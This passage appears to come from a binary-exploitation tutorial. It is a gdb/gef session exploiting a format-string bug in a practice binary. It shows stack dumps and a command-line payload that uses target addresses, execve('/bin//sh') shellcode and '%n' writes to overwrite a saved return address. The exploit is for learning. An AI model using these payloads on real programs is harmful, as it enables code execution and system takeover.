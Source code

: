 ```bash
0xffffcf30:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf40:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf50:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf60:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf70:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf80:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf90:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfa0:	0xffffcfc0	0x00000000	0x00000000	0xf7ddbee5
0xffffcfb0:	0xf7fa8000	0xf7fa8000	0x00000000	0xf7ddbee5
0xffffcfc0:	0x00000002	0xffffd054	0xffffd060	0xffffcfe4
0xffffcfd0:	0xf7fa8000	0x00000000	0xffffd038	0x00000000
0xffffcfe0:	0xf7ffd000	0x00000000	0xf7fa8000	0xf7fa8000
0xffffcff0:	0x00000000	0xee02ebb1	0xaae02da1	0x00000000
0xffffd000:	0x00000000	0x00000000	0x00000002	0x080490a0
0xffffd010:	0x00000000	0xf7fe7cd4	0xf7fe2410	0x0804c000
0xffffd020:	0x00000002	0x080490a0	0x00000000	0x080490d6
0xffffd030:	0x080491b6	0x00000002	0xffffd054	0x08049220
0xffffd040:	0x08049290	0xf7fe2410	0xffffd04c	0x0000001c
gef➤  
```

Also, the saved return address changed its place in the stack. Now it is at `0xffffcfbc`. And the shellcode changed its place too. It is at `0xffffcee0`.

Okay, write first 2 bytes.
```bash
gef➤  r $(python -c 'print "\xbc\xcf\xff\xff" + "\xbe\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%52929u" + "%6$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xbc\xcf\xff\xff" + "\xbe\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%52929u" + "%6$n"')
��������1�Ph//shh/bin��PS��

gef➤  x/100wx $esp - 0xfc
0xffffcec0:	0xffffced8	0xffffd270	0x000000c8	0x080491d4
0xffffced0:	0x00000000	0x00000000	0xffffcfbc	0xffffcfbe
0xffffcee0:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcef0:	0xb0e18953	0x2580cd0b	0x32393235	0x36257539
0xffffcf00:	0x00006e24	0x00000000	0x00000000	0x00000000
0xffffcf10:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf20:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf30:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf40:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf50:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf60:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf70:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf80:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf90:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfa0:	0xffffcfc0	0x00000000	0x00000000	0xf7ddbee5
0xffffcfb0:	0xf7fa8000	0xf7fa8000	0x00000000	0x0000cee0
0xffffcfc0:	0x00000002	0xffffd054	0xffffd060	0xffffcfe4
0xffffcfd0:	0xf7fa8000	0x00000000	0xffffd038	0x00000000
0xffffcfe0:	0xf7ffd000	0x00000000	0xf7fa8000	0xf7fa8000
0xffffcff0:	0x00000000	0xcd183db2	0x89fafba2	0x00000000
0xffffd000:	0x00000000	0x00000000	0x00000002	0x080490a0
0xffffd010:	0x00000000	0xf7fe7cd4	0xf7fe2410	0x0804c000
0xffffd020:	0x00000002	0x080490a0	0x00000000	0x080490d6
0xffffd030:	0x080491b6	0x00000002	0xffffd054	0x08049220
0xffffd040:	0x08049290	0xf7fe2410	0xffffd04c	0x0000001c
gef➤  
```
